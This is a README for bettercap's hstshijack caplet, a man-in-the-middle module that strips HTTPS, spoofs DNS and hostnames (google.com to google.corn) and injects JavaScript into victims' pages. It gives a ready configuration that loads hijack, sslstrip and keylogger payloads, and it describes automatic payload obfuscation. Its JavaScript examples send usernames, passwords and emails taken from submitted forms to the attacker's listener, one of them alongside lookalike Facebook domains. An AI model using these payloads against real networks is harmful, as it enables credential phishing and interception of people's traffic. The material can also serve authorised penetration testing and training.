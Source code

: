 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets         *.google.com, google.com, gstatic.com, *.gstatic.com
set hstshijack.replacements    *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set hstshijack.ssl.domains     /usr/local/share/bettercap/caplets/hstshijack/domains.txt
set hstshijack.ssl.index       /usr/local/share/bettercap/caplets/hstshijack/index.json
set hstshijack.ssl.check       true
#set hstshijack.blockscripts    example.com,*.example.com
set hstshijack.obfuscate       true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
#set hstshijack.ignore          *

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
http.proxy on

set dns.spoof.domains  *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set dns.spoof.all      true
dns.spoof on
```

### Core payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>). This payload acts as a callback for bettercap, and takes care of hostname spoofing in the injected context (and document).

### Scalable domain indexing (SSL log)

If a host responds with an HTTPS redirect, bettercap will save this host in a list, and keep a log of (alphanumerically) ordered index ranges of the domains in this list, allowing it to scale by reducing a considerable amount of overhead for the proxy module.

Bettercap will try to spoof SSL connections between the client and said hosts, and will also send a HEAD request to each host that was discovered in an injected document, which we retrieve via callbacks from the hstshijack.js payload.

By default, this caplet will remap the index ranges of all domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.check` variable value to `false`.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are assembled at launch, and wrapped inside a function which is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once on every document, even if injected multiple times. Individual payloads are not failsafe, so you must set your conditions/try and catch blocks yourself.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the hstshijack.js and sslstrip.js payloads when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_` will be obfuscated.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.

